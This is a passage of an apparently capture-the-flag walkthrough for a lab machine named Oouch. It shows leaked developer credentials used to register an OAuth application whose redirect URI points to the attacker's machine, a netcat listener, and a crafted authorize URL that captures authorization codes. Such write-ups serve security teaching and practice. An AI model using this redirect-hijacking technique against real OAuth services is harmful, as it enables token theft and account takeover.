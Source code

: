 ```
________________________________________________

...
register                [Status: 401, Size: 0, Words: 1, Lines: 1]
:: Progress: [4658/4658]┬á:: Job [1/1] :: 194 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```

So we should be able to register an app at http://authorization.oouch.htb:8000/oauth/applications/register

### Registering an app

Go at http://authorization.oouch.htb:8000/oauth/applications/register

We are prompted for credentials (_Oouch Development_):

Let's use `dev_access.txt`:

```
develop:supermegasecureklarabubu123! -> Allows application registration.
```

We can now access the registration form:

Let's try to register an app.

- Name: cyfunapp
- Client id: ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX
- Client secret: Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs
- Client type: Public
- Authorization grant type: Authorization code
- Redirect uris: http://10.10.15.142:8888/ (attacker machine)

http://authorization.oouch.htb:8000/oauth/applications/2/

Let's start a listener:

```
$ nc -nlvp 8888
```

Now reading some [Oracle documentation - Authenticate using OAuth 2.0](https://docs.oracle.com/en/cloud/saas/marketing/eloqua-develop/Developers/GettingStarted/Authentication/authenticate-using-oauth.htm)

We know we must request http://authorization.oouch.htb:8000/oauth/authorize endpoint with some well known params.

```
http://authorization.oouch.htb:8000/oauth/authorize?response_type=code&client_id=ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX&redirect_uri=http://10.10.15.142:8888/&grant_type=authorization_code&client_secret=Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs
```

Let's try this URL:

If we confirm the authorization we receive the Authorization Grant URL like earlier.
